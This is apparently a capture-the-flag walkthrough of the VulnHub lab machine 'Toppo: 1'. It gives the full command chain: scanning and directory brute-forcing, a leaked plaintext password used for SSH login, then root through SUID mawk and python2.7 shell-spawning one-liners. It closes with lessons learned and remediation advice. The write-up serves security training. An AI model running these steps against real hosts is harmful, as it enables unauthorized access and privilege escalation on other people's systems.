




# Toppo: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Flags** | flag.txt in /root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/toppo-1,245/) |

## Attack Summary

`nmap (HTTP+SSH)` → `dirb /admin (notes.txt → password 12345ted123)` → `SSH ted:12345ted123` → `find SUID mawk/python2.7` → `mawk BEGIN{system("/bin/sh")}` → root

## Methodology

1. Port scan reveals HTTP and SSH
2. Directory brute-force finds `/admin` with `notes.txt`
3. Password found in plaintext in notes file
4. Username guessed from password pattern
5. SSH login, then SUID abuse for privilege escalation

---

## Step 1: Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.104
```

Open ports: 22 (SSH), 80 (HTTP).



---

## Step 2: Directory Enumeration

```bash
dirb http://192.168.1.104
```

Interesting path: `/admin`


---

## Step 3: Credential Discovery

Browse to `http://192.168.1.104/admin/` — a `notes.txt` file is present:

```
Note to myself :
I need to change my password :
12345ted123
It is too week !!
```

Password: `12345ted123`. Username guessed from the password: `ted`.



---

## Step 4: SSH Login

```bash
ssh ted@192.168.1.104
# Password: 12345ted123
```

Shell obtained as `ted`.

---

## Step 5: SUID Enumeration

```bash
find / -perm -u=s -type f 2>/dev/null
```

Interesting SUID binaries found:
- `/usr/bin/mawk`
- `/usr/bin/python2.7`



---

## Step 6: Root via mawk SUID

`mawk` has the SUID bit set. It supports the `system()` function:

```bash
mawk 'BEGIN {system("/bin/sh")}'
id
# uid=0(root)
```

Alternatively, using Python 2.7:

```bash
python2.7 -c 'import pty; pty.spawn("/bin/sh")'
whoami
# root
```

Capture the flag:

```bash
cd /root
ls
cat flag.txt
```



---

## Lessons Learned

1. **Plaintext password in a web-accessible file** (`/admin/notes.txt`) — never store credentials in web directories.
2. **Predictable username from password** — using `ted123` in the password makes the username trivially guessable.
3. **SUID on scripting interpreters** (`mawk`, `python`) is extremely dangerous — an interpreter with SUID root is a trivial privesc.
4. **No authentication on `/admin`** — sensitive admin directories must require authentication.
5. **`find / -perm -u=s`** is one of the first post-exploitation checks — audit all SUID binaries regularly.

## Remediation

| Vulnerability | Fix |
|---|---|
| Password in web-accessible file | Never store credentials in web root; use environment variables or secrets managers |
| No access control on /admin | Require authentication for all admin directories |
| Predictable credentials | Enforce password complexity and ban username inclusion |
| SUID on `mawk` | Remove SUID from scripting interpreters; use sudo with specific command allowlist |
| SUID on `python2.7` | Remove SUID; consider removing Python 2 (EOL) entirely |
